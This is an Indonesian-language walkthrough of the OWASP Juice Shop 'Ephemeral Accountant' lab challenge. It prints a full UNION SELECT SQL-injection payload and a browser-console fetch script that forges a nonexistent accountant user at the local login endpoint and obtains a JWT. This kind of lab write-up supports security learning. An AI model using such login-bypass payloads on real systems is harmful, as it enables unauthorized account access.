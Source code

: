 ## Penyelesaian Tantangan: Ephemeral Accountant

### Misi Tantangan
Pada tantangan ini, saya diharuskan untuk melakukan login menggunakan akun pengguna yang sebenarnya tidak ada (`acc0unt4nt@juice-sh.op`) tanpa melalui proses registrasi. Inti dari tantangan ini adalah merekayasa keberadaan pengguna tersebut secara virtual, khusus pada saat proses autentikasi berlangsung.

### Metodologi dan Implementasi Serangan

#### Penentuan Target Serangan
Saya memfokuskan analisis pada *endpoint* `POST /rest/user/login` sebagai target utama. Tujuannya adalah untuk menyisipkan perintah SQL berbahaya melalui *body* permintaan yang berformat JSON.

#### Perancangan Muatan Injeksi SQL
Mengingat akun target tidak terdaftar di dalam basis data, strategi yang paling efektif adalah menggunakan serangan *SQL Injection* jenis `UNION SELECT`. Pendekatan ini memungkinkan saya untuk menciptakan sebuah baris data pengguna palsu secara *on-the-fly*. Muatan (*payload*) ini dirancang sedemikian rupa agar strukturnya identik dengan data pengguna yang sah, mencakup informasi seperti email, kata sandi, dan peran (*role*) yang dibutuhkan.

Berikut adalah muatan JSON yang saya gunakan:
```json
{
  "email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--",
  "password": "test1234"
}
```

#### Pengiriman Muatan via Konsol
Untuk mengeksekusi serangan, saya memanfaatkan fungsi `fetch` yang tersedia di dalam konsol peramban. Metode ini terbukti sangat andal karena kemampuannya dalam menangani pengiriman objek JSON secara langsung dan efisien.

Skrip eksekusi yang berhasil adalah sebagai berikut:
```javascript
fetch('http://127.0.0.1:3000/rest/user/login', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        "email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--",
        "password": "test1234"
    })
});
```

### Evaluasi Keberhasilan Serangan
Serangan *SQL Injection* ini terbukti sukses dalam menciptakan data pengguna virtual selama eksekusi proses login. Aplikasi target terkecoh dan memproses data rekayasa tersebut seolah-olah berasal dari sumber yang valid di dalam basis data. Akibatnya, sistem memberikan sebuah token JWT (*JSON Web Token*) sebagai tanda autentikasi yang berhasil. Insiden ini mengungkap adanya kerentanan yang sangat serius pada mekanisme autentikasi aplikasi.

### Bukti 
<img width="1861" height="958" alt="Screenshot 2025-09-09 225759" src="https://github.com/user-attachments/assets/d3dee9ea-7b12-4940-a7d1-2b78430f6509" />


